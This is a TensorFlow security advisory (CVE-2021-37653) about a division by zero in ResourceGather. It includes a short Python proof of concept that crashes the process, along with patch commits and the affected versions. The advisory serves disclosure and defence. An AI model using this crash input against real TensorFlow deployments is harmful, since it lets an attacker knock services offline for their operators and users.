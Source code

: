 ## TFSA-2021-127: Division by 0 in `ResourceGather`

### CVE Number
CVE-2021-37653

### Impact
An attacker can trigger a crash via a floating point exception in
`tf.raw_ops.ResourceGather`:

```python
import tensorflow as tf

tensor = tf.constant(value=[[]],shape=(0,1),dtype=tf.uint32)
v = tf.Variable(tensor)
tf.raw_ops.ResourceGather(
    resource=v.handle,
    indices=[0],
    dtype=tf.uint32,
    batch_dims=1,
    validate_indices=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/resource_variable_ops.cc#L725-L731)
computes the value of a value, `batch_size`, and then divides by it without
checking that this value is not 0.

### Patches
We have patched the issue in GitHub commit
[ac117ee8a8ea57b73d34665cdf00ef3303bc0b11](https://github.com/tensorflow/tensorflow/commit/ac117ee8a8ea57b73d34665cdf00ef3303bc0b11).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
